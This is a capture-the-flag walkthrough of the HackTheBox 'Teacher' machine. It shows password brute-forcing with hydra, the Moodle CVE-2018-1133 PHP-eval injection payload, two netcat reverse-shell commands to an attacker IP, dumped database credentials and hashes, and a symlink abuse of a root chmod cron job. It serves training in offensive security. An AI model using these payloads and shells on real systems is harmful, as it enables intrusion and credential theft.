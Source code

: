 1,Recon
Port scan
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Blackhat highschool
|_http-server-header: Apache/2.4.25 (Debian)
```

Enumerating valid uri
```
/images               (Status: 301) [Size: 313] [--> http://10.10.10.153/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.153/css/]
/manual               (Status: 301) [Size: 313] [--> http://10.10.10.153/manual/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.153/js/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.153/javascript/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.153/fonts/]
/phpmyadmin           (Status: 403) [Size: 277]
/moodle               (Status: 301) [Size: 313] [--> http://10.10.10.153/moodle/]
/server-status        (Status: 403) [Size: 277]
```

`/moodle` seems like our target and it would redirect to `http://teacher.htb/moodle/`
![](images/Pasted%20image%2020241104075221.png)

And also we can extra information from `Wappalyzer`
![](images/Pasted%20image%2020241104075448.png)

The version of LMS is `Moodle`

And by enumerating the web service ,we found 
`http://teacher.htb/moodle/lib/ajax/`
![](images/Pasted%20image%2020241104080358.png)

And also, I found something wired from `/images`
![](images/Pasted%20image%2020241104080934.png)
`5.png` seems like a not normal size picture, and when we open it, it would drop the error
![](images/Pasted%20image%2020241104081042.png)
That means we could not check it directly, so let's check it from the source code of original page.
We found it from `view-source:http://teacher.htb/gallery.html`

`<li><a href="[#](view-source:http://teacher.htb/gallery.html#)"><img src="[images/5.png](view-source:http://teacher.htb/images/5.png)" onerror="console.log('That\'s an F');" alt=""></a></li>`

However I find it, 5.png isn’t an image, but a note:
```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

From the note I know all but the last character of the password to log into something.
I’ll use python to generate passwords:
```
python3 -c 'import string; print("\n".join([f"Th4C00lTheacha{c}" for c in string.printable[:-5]]))' > passwords
```

Now I’ll use hydra to try them and find the password:
```
hydra -l Giovanni -P passwords 10.10.10.153 http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&rememberusername=1:Invalid login"                 
```

Or we can use `burpsuite Intruder` to check them.
![](images/Pasted%20image%2020241104082012.png)
And we get the password `Giovanni:Th4C00lTheacha#`

By searching the exploits of `Moodle, we found `Moodle 3.4.1 - Remote Code Execution from exploit-db

```
CVE-2018-1133 was a vulnerability that allows any user in the teacher role to get remote code execution through Moodle. The vulnerability is in the part of the code that allows a teacher to define a problem like “What is {x} + {y}?”, and have different x and y for each student. Moodle picks a random x and y, and then gets the answer by calling php’s eval() on the formula input. So if I can poison the input, I can get it to run my code. The post gives the following string that will give execution and bypass filters:

/*{a*/`$_GET[0]`;//{x}}

```

That means we can use this payload in the quiz creating page

Firstly we can add a quiz:
![](images/Pasted%20image%2020241121050814.png)

![](images/Pasted%20image%2020241121050914.png)
A new calculated type question is added in order to inject arbitrary PHP code in the answer of the question, in order to perform a Remote Code Execution.

In the following example, the payload `/*{a*/`$_GET[0]`;//{x}}` is added.
![](images/Pasted%20image%2020241121050951.png)

I’ll use this RCE to get a shell, grabbing my go to from the reverse shell cheat sheet, adding `0=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.16.10 443 >/tmp/f` to the end of the url. I did have to encode the & so that it wasn’t treated as another parameter. 
```
http://10.10.10.153/moodle/question/question.php?returnurl=/mod/quiz/edit.php?cmid=7&addonpage=0&appendqnumstring=addquestion&scrollpos=0&id=6&wizardnow=datasetitems&cmid=7&0=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.10 443 >/tmp/f
```
Remember open the netcat to handle the revershell.

2,switch to the valid user
when we successfully get the shell, we would be in `/var/www/html/moodle/question`
And we can find the database certificate in the `config.php`
```
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8mb4_unicode_ci',
);

$CFG->wwwroot   = 'http://teacher.htb/moodle';
$CFG->dataroot  = '/var/www/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!

```

Then we can get some hashes of password for the valid users:
```
guest:$2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO
admin:$2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2
giovanni:$2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO
Giovannibak | 7a860966115182402ed06375cf0a22af
```
Then we can get the valid certificate `Giovannibak:expelled`

When we check the `/etc/passwd`, we found the user `giovanni`
`giovanni:x:1000:1000:Giovanni,1337,,:/home/giovanni:/bin/bash`

3, shell as root
we can use `su` to switch to this valid user.
Then I found there is no command `sudo`, so we could not found what can we do as root
So pspy would be a great way to check what is going on in the background
![](images/Pasted%20image%2020241121044657.png)
There is a `backup.sh` always run in the background by root.
```
giovanni@teacher:~$ ls -al /usr/bin/backup.sh
-rwxr-xr-x 1 root root 138 Jun 27  2018 /usr/bin/backup.sh

giovanni@teacher:~$ cat /usr/bin/backup.sh 
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

We can only read this script, and I think `chmod` would be our target because it has use 777.

In this place, I’m going to take advantage of the fact that I can write symlinks pointing to directories / files I don’t own. From man chmod:
```
chmod never changes the permissions of symbolic links; the chmod system call cannot change their permissions. This is not a problem since the permissions of symbolic links are never used. However, for each symbolic link listed on the command line, chmod changes the permissions of the pointed-to file. In contrast, chmod ignores symbolic links encountered during recursive directory traversals
chmod 永远不会更改符号链接的权限； chmod 系统调用无法更改其权限。这不是问题，因为符号链接的权限从未被使用过。但是，对于命令行上列出的每个符号链接，chmod 都会更改指向文件的权限。相反，chmod 会忽略递归目录遍历期间遇到的符号链接
```
it will only follow symlinks that are directly referenced by the command line (after wildcard expansion).

So if I create a symbolic link in ~/work/tmp, the thing it points to will have it’s permissions changed.
`ln -s /usr/bin/backup.sh `
After a minute, we would find
`-rwxrwxrwx 1 root root 138 Jun 27  2018 /usr/bin/backup.sh`

Then we can add a reverse shell to get the root shell.
`echo "nc -e /bin/bash 10.10.16.10 443" >> /usr/bin/backup.sh`

Or, if I wanted to be blunt, I could just point it at /, and let chmod recursively give me (and everyone else) access to the entire filesystem.
`ln -s /root`
Then wait for a minute, we got:
`drwxrwxrwx  3 root root  4096 Nov 21 08:56 root`